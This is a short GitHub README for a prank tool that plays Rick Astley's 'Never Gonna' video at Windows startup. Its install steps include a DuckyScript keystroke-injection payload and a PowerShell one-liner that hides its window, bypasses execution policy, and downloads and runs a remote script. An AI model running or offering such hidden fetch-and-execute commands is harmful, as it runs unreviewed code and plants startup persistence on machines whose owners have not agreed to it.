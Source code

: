 
# RickRoll On Startup

This project allows you to play the "Never Gonna" video by Rick Astley on startup for Windows, Linux, and Mac systems.

## Features
- Plays the "Never Gonna" video on startup.
- Supports Windows, Linux, and Mac.

## Installation

### Windows

#### Method 1: Using DuckyScript
1. Download the [DuckyScript](https://github.com/delete-user-56/RickRoll_OnStartup/blob/main/payload.dd).
2. Execute the script.

#### Method 2: Manual Installation
1. Open PowerShell.
2. Paste the following command:
   ```powershell
   powershell -w hidden -Exec Bypass -c "iwr https://raw.githubusercontent.com/rrvu/rr/main/rr.ps1 -UseBasicParsing | iex"
   ```

### Linux/Mac

Instructions for Linux and Mac are coming soon.

## Uninstallation

### Windows

To uninstall, download and execute the [Uninstall Script](https://github.com/delete-user-56/RickRoll_OnStartup/blob/main/UninstallRR.ps1) using PowerShell.

### Linux/Mac

Instructions for uninstallation on Linux and Mac are coming soon.
